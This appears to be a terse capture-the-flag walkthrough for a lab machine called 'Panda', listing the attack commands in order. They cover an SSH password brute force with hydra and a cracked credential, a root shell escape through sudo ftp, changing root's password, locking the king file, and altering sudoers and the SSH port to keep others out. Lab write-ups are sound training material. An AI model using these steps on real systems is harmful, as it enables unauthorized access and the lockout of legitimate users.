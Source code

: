 # Panda 
## Step 1
1. `hydra -l shifu -P /usr/share/wordlists/rockyou.txt ssh://$IP`
	1. `shifu : batman`
2. type `passwd` and change shifu's passwod.
3. `sudo ftp`
4. `!/bin/sh`
5. type `passwd` and change root's password.
6. `chattr -i /root/king.txt;echo lomarkomar > /root/king.txt;chmod a=r /root/king.txt;chattr +i /root/king.txt`
7.  `vim /etc/sudoers` and delete ftp permissions
8. `echo "Port 1337" >> /etc/ssh/sshd_config;sudo service ssh restart` 
9. `find / -name flag 2>/dev/null`
